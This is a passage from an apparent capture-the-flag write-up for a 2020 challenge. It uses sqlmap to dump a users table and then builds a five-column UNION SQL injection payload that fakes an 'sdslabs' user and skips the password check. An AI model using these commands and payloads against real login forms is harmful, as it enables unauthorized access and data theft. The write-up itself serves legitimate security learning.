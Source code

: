 A table name called users, time to dump all the information within it.

```
sqlmap -r r.txt -T users --dump
```

![no admin](/assets/images/backdoor/2020-08-16-n00b15ctf/25.png)

Huh, there is only one user inside the table and where is the sdslabs? If the username is not available inside the table, we need to 'create' one.

If you refer back to the sqlmap result, you will notices the login filed is vulnerable to UNION attack.

![union attack](/assets/images/backdoor/2020-08-16-n00b15ctf/26.png)

We are going to draft a 5 columns UNION query with disabled the password field checking. The payload on the username input will be looks like

```sql
' UNION SELECT null,null,'sdslabs',null,null --
```

In the end, the query will be formatted as

```sql
$query "SELECT * FROM users WHERE username = '' UNION SELECT null,null,'sdslabs',null, null -- AND password_hash = '{$password}'";
```
